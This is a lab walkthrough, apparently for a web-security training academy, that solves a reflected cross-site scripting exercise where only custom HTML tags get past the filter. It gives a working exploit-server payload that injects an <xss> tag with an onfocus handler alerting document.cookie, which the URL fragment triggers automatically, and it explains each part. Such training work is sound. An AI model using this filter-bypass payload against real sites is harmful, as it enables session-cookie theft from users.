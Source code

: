 # Lab 6: Reflected XSS into HTML context with all tags blocked except custom ones

This lab **blocks all standard HTML tags except custom ones**.

Your goal is to **inject a custom HTML tag** that triggers a cross-site scripting attack and automatically alerts the `document.cookie`.

---

### 🎯 **Solution**

1. Navigate to the **exploit server** and paste the following payload into the code area, replacing `YOUR-LAB-ID` with your actual lab ID:

```html
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>

```

1. Click **"Store"** to save the payload.
2. Then click **"Deliver exploit to victim"** to send the malicious link.

---

### 🛠️ **How it works**

- The payload injects a **custom tag `<xss>`** with an `id="x"`.
- The tag has an `onfocus` event handler that triggers `alert(document.cookie)`.
- The URL fragment (`#x`) automatically focuses this element when the victim loads the page.
- This triggers the `onfocus` event, resulting in the alert showing the cookie.

---

### 🎥 **Community Solution Video**

▶️ [Watch on YouTube](https://youtu.be/sjs6RS7lURk)
